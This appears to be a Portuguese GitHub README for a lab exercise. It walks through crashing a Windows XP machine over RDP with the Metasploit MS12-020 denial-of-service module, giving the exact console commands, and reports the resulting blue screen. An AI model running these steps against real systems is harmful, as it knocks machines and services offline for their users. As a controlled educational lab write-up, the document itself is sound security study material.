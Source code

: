 # Ataque DoS no RDP

## ⚒️ Ferramentas Necessárias

- 💻 **Kali Linux**
- 💻 **Windows XP**

## 🔎 Visão Geral

Este projeto demonstra um ataque DoS utilizando o Metasploit para explorar vulnerabilidades no protocolo RDP, forçando uma tela azul da morte (BSOD) na máquina alvo.

## 🔧 Passos

### 1. No Kali Linux

   1. Acesse como administrador:
      ```bash
      sudo su
   2. Inicie o Metasploit Console:
      ```bash
      msfconsole
   3. Configure o exploit:
      ```bash
      use auxiliary/dos/windows/ms12_020_maxchannelids
      set RHOSTS X.X.X.X
   4. Execute o ataque:
      ```bash
      exploit
      
### 2. No Windows XP

   1. Configure o ambiente RDP:
   Habilite conexão remota no painel de controle.
   2. Crie um arquivo flag:
   ```bash
   echo "Essa é a flag!" > flag.txt
   ```

---

⚠️ **Atenção**

Este projeto é apenas para fins educacionais. Não utilize para fins maliciosos.

📊 **Resultados**

Este ataque foi testado com sucesso em um ambiente controlado utilizando o Kali Linux e uma máquina Windows XP. O ataque gerou uma tela azul (BSOD) na máquina alvo, destacando as vulnerabilidades presentes em sistemas antigos. Use essas informações com responsabilidade!
